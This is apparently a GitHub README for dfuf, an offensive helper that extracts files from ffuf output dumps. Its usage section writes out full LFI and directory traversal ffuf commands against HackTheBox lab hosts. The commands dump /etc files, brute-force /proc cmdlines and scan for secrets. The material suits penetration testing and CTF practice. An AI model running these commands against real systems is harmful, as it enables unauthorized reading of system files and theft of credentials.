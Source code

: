 # dfuf - Dump Faster U Fool

## About

> The name of **dfuf** was inspired by **ffuf** (Fuzz Faster U Fool)

### Why dfuf?

**ffuf** can save request & response dump to a directory (`-od` option)

This simple script can extract files from the request & response dump saved by **ffuf**.

**ffuf** should be faster than any LFI dumpers available on the public. So, why not use **ffuf** to dump files?

### Example Use Cases

- When one was stuck at initial foothold, he/she might need to dump files via LFI / Directory Traversal vulnerability for further enumeration.

- When getting shell is impossible, one may perform data exfiltration by dumping files via LFI / Directory Traversal vulnerability.

## Demo

- Brute force cmdline in `/proc`

[![asciicast](https://asciinema.org/a/627480.svg)](https://asciinema.org/a/627480)

- Dump common files under `/etc` and harvest secrets

[![asciicast](https://asciinema.org/a/627891.svg)](https://asciinema.org/a/627891)

- Dump files in webroot with url double encode

[![asciicast](https://asciinema.org/a/627946.svg)](https://asciinema.org/a/627946)


## Installation

Make sure [pipx](https://github.com/pypa/pipx?tab=readme-ov-file#install-pipx) is installed.

```bash
pipx install git+https://github.com/opabravo/dfuf
```

## Usage

```bash
usage: dfuf [-h] -o FFUF_JSON_OUTPUT -od FFUF_OUTPUT_DIR dir_to_save_extracted_files

A tool to extract files from ffuf output

https://github.com/opabravo/dfuf

positional arguments:
  dir_to_save_extracted_files
                        Output directory where extracted files will be saved

options:
  -h, --help            show this help message and exit
  -o FFUF_JSON_OUTPUT, --ffuf-json-output FFUF_JSON_OUTPUT
                        Json output file from ffuf
  -od FFUF_OUTPUT_DIR, --ffuf-output-dir FFUF_OUTPUT_DIR
                        Output directory from ffuf

Usage:
    1. Dump files with ffuf
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json

    2. Extract files from ffuf output
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

Examples:
    1. Common linux files (880 lines) (~8 sec)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

    2. Common files under `/etc` (8314 lines) (~1 min)
        $ ffuf -c -u 'http://snoopy.htb/download?file=....//....//....//..../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump
        $ tartufo scan-folder ffuf_dump/

    3. Brute force cmdline in `/proc` (~1 min)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w <(for i in $(seq 10000); echo "/proc/$i/cmdline") -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

        View the result in a pretty format :
        $ find ffuf_dump/proc -type f -exec bash -c 'pid=$(echo $0 | cut -d '/' -f3); echo -en "\n$pid | "; cat $0 | tr "\0" " "' {} \; | sort -s -n -k 1,1

    4. Files in web root with url double encode
        $ feroxbuster -t 150 -o ferox_443.txt -k -u https://broscience.htb/
        $ ffuf -c -u 'https://broscience.htb/includes/img.php?path=..%252fFUZZ' -w <(cat ferox_443.txt | awk '{print $6}' | unfurl -u paths | grep '.php$') -enc 'FUZZ:urlencode' -o ffuf.json -od ffuf
        $ dfuf -o ffuf.json -od ffuf ffuf_dump
```

## License

[MIT](LICENSE)


